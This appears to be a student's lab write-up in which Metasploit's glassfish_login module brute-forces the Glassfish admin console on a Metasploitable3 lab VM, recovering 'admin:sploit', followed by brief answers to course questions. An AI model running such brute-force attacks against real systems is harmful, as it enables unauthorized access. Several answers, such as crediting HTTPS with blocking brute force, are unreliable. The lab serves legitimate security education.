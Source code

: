 # Exercises
Penetration testing exercise using metasploit on Glassfish. The exercise
targets the Glassfish application server running under Windows in the metasploitable3 image. The test is performed via a brute force attack against the
login page.

In this exercise we need the Kali machine (for penetration testing) and the vulnerable
machine is the Metasploitable3 Windows image. It is the only exercise to be performed
against the Windows image and the last metasploitable exercise of the course.

Please note that all questions (full lines) marked with †should be answered in the report
which you submit as assignment 2. Note on the length of answers: Questions which are
described as discussion or open target an appropriate level of elaboration as you see fit,
whereas the other questions can typically be answered with a sentence. Nonetheless,
there are no length requirements on the answers.

While scanning for vulnernable services in Exercise~03, Glassfish running on port 4848
should have come up.

# Background
**†What does https actually provide protection for?**  
HTTPS which is an ecrypted version of the protocol provides protection against data/packet sniffing also called MITM attacks.  


# Brute Force Attack
Creating user.txt and pass.txt
````console
berkankutuk@kali:~$ nano user.txt
berkankutuk@kali:~$ nano pass.txt
````

Goint into msfconsole
````console
berkankutuk@kali:~$ msfconsole
msf6 > use auxiliary/scanner/http/glassfish_login
msf6 auxiliary(scanner/http/glassfish_login) > show options
  Name              Current Setting  Required  Description                                                                                                                                                                                  
  ----              ---------------  --------  -----------                                                                                                                                                                                  
  BLANK_PASSWORDS   false            no        Try blank passwords for all users                                                                                                                                                            
  BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5                                                                                                                                                          
  DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database                                                                                                                                 
  DB_ALL_PASS       false            no        Add all passwords in the current database to the list                                                                                                                                        
  DB_ALL_USERS      false            no        Add all users in the current database to the list                                                                                                                                            
  DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)                                                                                                  
  PASSWORD                           no        A specific password to authenticate with                                                                                                                                                     
  PASS_FILE                          no        File containing passwords, one per line
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             4848             yes       The target port (TCP)
  SSL               false            no        Negotiate SSL/TLS for outgoing connections
  STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
  THREADS           1                yes       The number of concurrent threads (max one per host)
  USERNAME          admin            yes       A specific username to authenticate as
  USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false            no        Try the username as the password for all users
  USER_FILE                          no        File containing usernames, one per line
  VERBOSE           true             yes       Whether to print output for all attempts
  VHOST                              no        HTTP server virtual host
````

Setting the parameters
````console
msf6 auxiliary(scanner/http/glassfish_login) > set RHOST 10.0.2.5
msf6 auxiliary(scanner/http/glassfish_login) > set USER_FILE user.txt
msf6 auxiliary(scanner/http/glassfish_login) > set PASS_FILE pass.txt
````
RPORT is already set, so we move on.

Running the exploit
Setting the parameters
```console
msf6 auxiliary(scanner/http/glassfish_login) > exploit
[*] 10.0.2.5:4848 - Checking if Glassfish requires a password...
[*] 10.0.2.5:4848 - Glassfish is protected with a password
[-] 10.0.2.5:4848 - Failed: 'admin:1234567'

[!] No active DB -- Credential data will not be saved!
[-] 10.0.2.5:4848 - Failed: 'admin:password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password123'
...
[+] 10.0.2.5:4848 - Success: 'admin:sploit'
...
```

We got the credentials: `admin:sploit`

# Questions
**†Which username/password combination did you find?**  
Username: admin  
Password: sploit

**†Discuss which security relevant problems are we testing with a brute force attack?**  
Weak password that are common and unencrypted passwords

**†Discuss what would be your suggestions to the admin in order to address and mitigate
this issue?**   
Either random-generate or encrypt passwords.

**†How is this attack type related to the internet of things, internet routers, and, e.g.,
virtual machines?**  
Trial and error method in order to guess user credentials for an authorized system.

**†Do you know a way in which https could make the connection more secure against this
kind of attack?**  
By managing the incorrect login attempts and asking for CAPTCHA. Furthermore, by encrypting the packet values, so no others can eavesdrop and thereby see the credentials in plain text.
